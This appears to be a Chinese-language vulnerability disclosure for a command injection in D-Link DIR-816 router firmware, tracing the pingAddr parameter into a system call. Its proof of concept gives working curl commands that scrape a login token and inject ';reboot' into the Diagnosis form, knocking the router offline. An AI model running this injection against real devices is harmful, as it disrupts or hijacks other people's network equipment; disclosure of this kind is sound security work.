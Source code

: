# Dlink DIR-816 命令注入漏洞
## Overview
- 厂商网址：https://www.dlink.com/
- 固件下载地址：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
Dlink DIR-816A2_FWv1.10CNB05中存在一个命令注入漏洞，可以在路由系统中执行任意命令。

## Affected version

![](pic/version.png "")

图中显示了路由器的最新固件:A2_FWv1.10CNB05
## Vulnerability details
在webs上可以看到硬件版本是A2 1.10。

![](pic/web.png "")

在goahead中，我们可以在sub_45AC4C中找到代码细节，程序将通过pingAddr参数获得的内容传递给V2。

![](pic/code1.png "")

然后，通过snprintf函数将V2匹配的内容格式化为V10。

![](pic/code2.png "")

V10参数由函数doSystembk()调用，存在命令注入漏洞。

## Vulnerability exploitation condition
需要获取cookie来执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下shell命令进行攻击

Poc如下
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1;reboot'
```
运行poc后，效果如下，路由器重启，无法连接到路由器。

![](pic/effect1.png "")


## CVE-ID
unsigned
